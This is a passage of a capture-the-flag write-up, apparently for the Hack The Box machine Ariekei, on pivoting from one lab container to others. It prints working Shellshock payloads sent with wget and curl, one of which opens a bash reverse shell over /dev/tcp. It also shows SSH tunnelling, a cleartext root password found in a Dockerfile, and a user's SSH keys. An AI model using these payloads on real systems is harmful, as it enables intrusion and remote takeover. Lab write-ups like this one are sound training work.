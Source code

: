 ### Pivoting to Blog-test

As this machines has a connection to the _172.24.0.2/24_ network, there is only one box that is in that network and it is _beehive.ariekei.htb (172.24.0.2)_.
When examining the **Apache** configuration files in _/common/containers/blog-test/config/sites-enabled/000-default_ it states that it listens on port 80:
```markdown
<VirtualHost \*:80>
(...)
```

As the **Web Application Firewall** is not in the way anymore, it is possible to exploit **Shellshock** to gain command execution:
```markdown
wget --user-agent='() { :; }; echo; echo; /usr/bin/whoami' 172.24.0.2/cgi-bin/stats
```

The _stats_ file outputs _"www-data"_ and command execution works. Instead of starting a reverse shell, lets use a SSH tunnel with the [SSH command line](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/).

Getting into SSH command line on _ezra_ and forwarding my local port 8001:
```markdown
ssh> -L 8001:172.24.0.2:80
```

Open remote port 8002 on _ezra_ by forwarding through my localhost on port 8003:
```markdown
ssh> -R 8002:127.0.0.1:8003
```

Now on my local client I test it by connecting via `curl` to _blog-test (172.24.0.2)_ on port 8001:
```markdown
curl localhost:8001
```

This outputs the web page on _beehive.ariekei.htb_ where we know it is vulnerable to **Shellshock**, so exploiting that to start a reverse shell:
```markdown
curl -A '() { :; }; echo; echo; /bin/bash -i >& /dev/tcp/172.24.0.253/8002 0<&1 2>&1' http://localhost:8001/cgi-bin/stats
```

After sending the request, the listener on my IP and port 8003 starts a reverse shell session on _blog-test_ as _www-data_.

### Pivoting to Host

We are _www-data_ on this box but were root on all the other containers. When looking at the _/common/containers/*/Dockerfile_ in the configuration files, there is a root password in cleartext:
> root:Ib3!kTEvYw6*P7s

Lets switch user to root with `su -` to get access to all files.

There is the home directory _/home/spanishdancer_ that has a private and public SSH key in the _.ssh_ folder and the public key shows the username and hostname for which box it is:
```markdown
(...) spanishdancer@ariekei.htb
```
